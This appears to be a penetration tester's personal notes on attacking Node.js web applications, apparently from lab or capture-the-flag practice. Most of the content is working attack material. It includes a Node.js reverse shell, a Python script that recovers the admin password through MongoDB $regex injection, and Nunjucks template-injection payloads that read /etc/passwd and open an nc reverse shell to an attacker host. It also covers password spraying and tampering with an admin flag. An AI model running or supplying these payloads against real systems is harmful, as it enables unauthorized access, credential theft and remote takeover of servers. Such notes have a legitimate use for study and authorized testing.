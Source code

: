#### Enumeration

Capture url request in BurpSuite:

![[Pasted image 20220228102713.png]]
Take a look at /api/users

Take the list of users, and a short list of passwords, and attack the login request.

Look for something that would need elevated privilges, like /api/settings.

```
{"color-theme":"light","lang":"en","admin":false}
```

Change admin value to true:

```
{"color-theme":"dark","admin":true}
```


#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
![[Pasted image 20220304092318.png]]

and seeing the result of "2".
![[Pasted image 20220304092332.png]]

Let's try something more complicated:

```node - kali
(function(){
   return 2+2;
})();
```

![[Pasted image 20220304092443.png]]

and we see this also works
![[Pasted image 20220304092547.png]]

```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![[rlwrap]]

#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/

```
http://$TARGET:5000/login
```

Capture in Burp, change Content-Type to json:

```BurpSuite - kali
Content-Type: application/json
```

Change the data body to json format:

```BurpSuite - kali
{"user":"admin","password":"admin"}
```

Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.

```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

```bash - kali
mousepad login.py
```

```python - kali
import requests
import json
import string
import sys


def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://$TARGET:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```

#### Command injection

First, we notice how the our input for the newsletter is reflected back to us.

![[Pasted image 20221115132135.png]]

Test for command injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

![[Pasted image 20221115132357.png]]

Capture in Burp, send to repeater.

#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@example.domain"
}
```

![[rlwrap]]

Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@example.domain"
}
```

#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!

![[Pasted image 20220905142745.png]]





